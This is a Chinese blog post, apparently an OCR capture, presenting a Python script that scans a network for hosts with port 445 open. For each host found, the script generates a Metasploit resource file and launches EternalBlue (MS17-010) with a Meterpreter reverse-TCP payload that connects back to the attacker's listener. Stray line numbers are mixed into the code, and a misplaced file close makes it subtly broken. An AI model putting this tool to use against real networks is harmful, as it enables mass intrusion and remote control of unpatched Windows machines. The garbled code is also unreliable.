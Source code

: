 我们首先利用 findTarget() 函数找到目标[网段](https://so.csdn.net/so/search?q=%E7%BD%91%E6%AE%B5&spm=1001.2101.3001.7020)或目标主机中开放了445端口的主机，然后利用 confickerExploit() 函数将攻击代码写入 configure.rc　配置文件中，最后调用　MSF 框架读取配置文件进行攻击！

```
# -*- coding: utf-8 -*-      
"""      
Created on Sun Nov  12 09:11:33 2018      
@author: 小谢      
"""      
import os      
import optparse      
import sys      
import nmap      1
def findTarget(Hosts):              #扫描网段范围内开放445端口的主机      1
    nmScan=nmap.PortScanner()      1
    nmScan.scan(Hosts,'445')      1
    targets=[]      1
    for t in nmScan.all_hosts():      1
        if nmScan[t].has_tcp(445):  #如果445端口提供了协议      1
            state=nmScan[t]['tcp'][445]['state']  #查看445端口的状态      1
            if state=='open':      1
                print '[+]Found Target Host:'+t      1
                targets.append(t)       2
    return targets         #返回开放445端口的主机列表      2
def confickerExploit(configFile,target,lhost):       #漏洞利用      2
    configFile.write('use exploit/windows/smb/ms17_010_eternalblue \n')  #漏洞利用代码      2
    configFile.write('set PAYLOAD windows/x64/meterpreter/reverse_tcp\n')      2
    configFile.write('set RHOST '+str(target)+'\n')              #设定参数      2
    configFile.write('set LHOST '+lhost+'\n')      2
    configFile.write('exploit -j -z\n')    #j选项是将所有连接的会话保持在后台 -z不与任务进行即时交换      2
def main():      2
    configFile=open('configure.rc','w')  #以写入方式打开配置文件      2
    usage='[-]Usage %prog -H <RHOSTS> -l/-L <LHOST> '      3
    parser=optparse.OptionParser(usage)      3
    parser.add_option('-H',dest='target',type='string',help='target host')           #目标主机      3
    parser.add_option('-l','-L',dest='lhost',type='string',help='listen address')    #我们的主机      3
    (options,args)=parser.parse_args()      3
    target=options.target      3
    lhost=options.lhost      3
    if (target==None)|(lhost==None):      3
        print parser.usage      3
        exit(0)      3
    targets=findTarget(options.target)           #寻找目标      4
    for target in targets:                       #逐个攻击      4
        confickerExploit(configFile,target,lhost)      4
        configFile.close()      4
        os.system('msfconsole -r configure.rc')  #启动metasploit并读取配置文件      4
if __name__=='__main__':      4
    main()
```


![](https://img-blog.csdnimg.cn/2018111216204463.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)